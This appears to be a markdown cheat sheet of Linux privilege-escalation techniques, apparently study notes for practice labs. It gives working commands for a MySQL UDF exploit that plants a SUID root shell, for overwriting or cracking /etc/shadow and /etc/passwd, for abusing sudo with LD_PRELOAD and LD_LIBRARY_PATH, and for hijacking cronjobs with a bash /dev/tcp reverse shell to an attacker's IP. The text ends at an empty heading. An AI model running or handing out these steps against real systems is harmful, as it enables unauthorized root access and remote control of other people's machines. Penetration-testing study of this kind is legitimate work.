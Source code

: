 # Linux priv esculation

## MySQL exploit

This exploit works if MySQL is run in root mode.

Using this exploit (https://www.exploit-db.com/exploits/1518)

Complie the code using gcc:

~~~ 
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
~~~

Open MySQL and create a user defined function that runs system commands.

This creates a SUID in the tmp that when run esculates priviledge. 

~~~
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
~~~
 
## Readable /etc/shadow

Readable /etc/shadowcan copied and cracked by john

## Writeable /etc/shadow

Generate a new password and replace the root password

~~~
mkpasswd -m sha-512 <password here>

Put :7::: at the end
~~~

## Writable /etc/passwd file

Generate a new password hash:

~~~
openssl passwd <newpassword>
~~~

Then in the /etc/passwd file change root password hash (it will be an x).


## Sudo escape sequencies.

~~~
sudo -l 
~~~

Then use GTFOBins (https://gtfobins.github.io) to look for sudo privesc.

If apache2 can be used in sudo then run:

~~~
sudo apache2 -f /etc/shadow
~~~

This gives the password sha-512 for root.

## sudo enviornmental variables.

Sudo can be configured to inherit environment variables from the user's environment.

~~~
sudo -l
--------------------------------------------------------------
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
--------------------------------------------------------------
~~~

- LD_PRELOAD is an enviornmental variable that loads a shared object before anything else.
- LD_LIBRARY_PATH is an enviornmental variable that a provides a lists of dirs where shared librarys 
  are searched for.

### Abusing sudo enviornmental varaiables
 
Create a shared object (one that will spawn a root shell).

~~~
gcc -fPIC -shared -nostartfiles -o /tmp/exploit_file.so exploit_file.c
~~~

Change the LD_PRELOAD to the file while running a programme in sudo.

~~~
sudo LD_PRELOAD=/tmp/preload.so <programme>
~~~

This will then run the shared object.

**OR**

Use a shared sudo enviornment (LD_LIBRARY_PATH)

Find shared library for a programme

~~~
ldd /usr/sbin/apache2
~~~

Create a shared object (that gives root access).

~~~
gcc -o /tmp/exploit_file.so -shared -fPIC exploit_file.c
~~~

Then run the programme

~~~
sudo LD_LIBRARY_PATH=/tmp apache2
~~~

## CronJobs File permission

Change a cronjob that is running by root user to gain a shell.

First view cronjobs
~~~
cat /etc/crontab
~~~

Then check if any are writeable

~~~
ls -l (cronjob from etc/crontab list)
~~~

Replace content of one of them with reverse shell

~~~
#!/bin/bash
bash -i >& /dev/tcp/<ip address of host machine>/4444 0>&1
~~~

Have a netcat listener 

~~~
nc -lvnp 4444
~~~

and a root shell should spawn!!

## Cronjob Enivornmental Variables

Can change a script (run by root) using cronjob to activate another script giving us root access.

Example

In this example the path variable leads to /home/user. We can exploit this by putting a script
here so it is excuted before the cronjob looks further for the actual script.

~~~
cronjob is overwrite.sh

vi ~/home/user/overwrite.sh

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

chmod +x /home/user/overwrite.sh

/tmp/rootbash -p
~~~

## Cronjobs wildcards.


